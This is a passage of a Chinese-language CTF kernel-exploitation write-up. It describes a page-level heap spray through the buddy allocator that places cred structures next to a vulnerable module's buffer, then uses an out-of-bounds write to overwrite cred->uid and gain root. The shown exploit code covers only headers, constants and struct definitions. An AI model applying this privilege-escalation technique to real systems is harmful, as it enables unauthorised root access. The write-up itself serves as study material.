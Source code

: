 本題環境中題目的 `kmem_cache` 單次會向 buddy system 請求一張內存頁，而由於 buddy system 遵循 LIFO，因此我們可以：

- 先分配大量的單張內存頁，耗盡 buddy 中的 low-order pages。
- 間隔一張內存頁釋放掉部分單張內存頁，之後堆噴 cred，這樣便有幾率獲取到我們釋放的單張內存頁。
- 釋放掉之前的間隔內存頁，調用漏洞函數分配堆塊，這樣便有幾率獲取到我們釋放的間隔內存頁。
- 利用模塊中漏洞進行越界寫，篡改 `cred->uid` ，完成提權。

我們的子進程需要輪詢等待自己的 uid 變爲 root，但是這種做法並不優雅：) ，所以筆者這裏選擇用一個新的管道在主進程與子進程間通信，當子進程從管道中讀出1字節時便開始檢查自己是否成功提權，若未提權則直接 sleep 即可。

### EXPLOIT

最後的 exp 如下：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>
#include <string.h>
#include <sched.h>
#include <time.h>
#include <sys/socket.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/wait.h>

#define PGV_PAGE_NUM 1000
#define PGV_CRED_START (PGV_PAGE_NUM / 2)
#define CRED_SPRAY_NUM 514

#define PACKET_VERSION 10
#define PACKET_TX_RING 13

#define VUL_OBJ_NUM 400
#define VUL_OBJ_SIZE 512
#define VUL_OBJ_PER_SLUB 8
#define VUL_OBJ_SLUB_NUM (VUL_OBJ_NUM / VUL_OBJ_PER_SLUB)

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

struct castaway_request {
    int64_t index;
    size_t	size;
    void 	*buf;
};

struct page_request {
    int idx;
    int cmd;
};
```